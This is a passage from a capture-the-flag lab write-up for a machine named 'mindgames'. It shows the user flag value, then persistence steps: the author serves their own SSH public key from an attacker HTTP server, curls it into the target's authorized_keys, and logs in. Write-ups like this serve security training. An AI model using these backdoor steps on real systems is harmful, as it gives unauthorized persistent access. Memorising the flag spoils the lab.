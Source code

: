 Navigating to `mindgames` home directory. 
```shell
$ cd ~
cd ~
$ ls
ls
user.txt  webserver
$ cat user.txt  
cat user.txt
thm{411f7d38247ff441ce4e134b459b6268}
$ 
```
We found the user flag and retrieved its value. 

## Persist
Prior to exploring privilege escalation, we can persist ourselves on the server and obtain a more durable shell in the process. 

We know the server supports ssh, so lets install our own ssh key on the target under the `mindgames` user. 

If you don't already have a ssh key pair generated, generate one using `ssh-keygen`.

Following the default guided generation process, you'll have a new ssh key pair generated `id_rsa` and `id_rsa.pub`

Navigate to the location of these keys on your local machine and run a python http server to host them to the target. 

```
python3 -m http.server --bind 10.9.0.68 8000
```

Now on the target machine, create the following folder structure under the user home directory `~/.ssh/`. 

```shell
$ cd ~
cd ~
$ mkdir -p ~/.ssh/
mkdir -p ~/.ssh/
$ 
```
Now navigate to the `.ssh` folder and run the curl command to download the `id_rsa.pub` and install it as a valid key for the `mindgames` user under the `authorized_keys` file.

```shell
$ curl http://10.9.0.68:8000/id_rsa.pub >> authorized_keys
curl http://10.9.0.68:8000/id_rsa.pub >> authorized_keys
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   563  100   563    0     0    876      0 --:--:-- --:--:-- --:--:--   875
```

Now we can login via ssh using our id_rsa keypair under the `mindgames` user. 

```
ssh -i id_rsa mindgames@10.10.11.203
```

